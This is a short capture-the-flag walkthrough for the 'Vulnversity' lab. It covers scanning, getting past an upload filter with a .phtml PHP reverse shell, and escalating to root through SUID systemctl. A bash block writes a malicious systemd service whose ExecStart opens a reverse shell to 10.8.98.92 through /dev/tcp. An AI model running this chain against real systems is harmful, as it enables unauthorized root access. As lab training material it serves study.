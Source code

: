 # Vulnversity

* Scan with *nmap*
* Find an website running on port 3333
* Locate dirs with gobuster, finding the /internal directory
* File inclusion vulnerability
* Find  which extensions are allowed using burp (editing the request and providing different extensions)
* The site does not accept neither php, php3, php4 or php5 extensions
* It does accept phtml, now we have a normal file inclusion vuln

## Getting a PHP reverse shell
* The code for the shell [PHP-shell](https://github.com/pentestmonkey/php-reverse-shell)
* Upload the file containing this code with the correct extension (phtml), then go to internal unploads, while having a netcan listening `nc -lvnp 1234`
* We have a shell
* We have to exploit a /bin/systemctl with the SUID bit set
* We insert the following payload:
```bash
$ cd /bin
$ 
$ touch /tmp/root.service
$ echo '[Unit]' > /tmp/root.service
$ echo 'Description=rooooot' >> /tmp/root.service
$ echo '[Service]' >> /tmp/root.service
$ echo 'Type=simple' >> /tmp/root.service
$ echo 'User=root' >> /tmp/root.service
$ echo "ExecStart=/bin/bash -c 'bash -i  >& /dev/tcp/10.8.98.92/3334 0>&1' " >> /tmp/root.service
$ echo '[Install]' >> /tmp/root.service
$ echo 'WantedBy=multi-user.target' >> /tmp/root.service
$ ./systemctl enable /tmp/root.service
$ ./systemctl start root
```
* Run the last command while having a netcat listener on the specified port to get the root shell
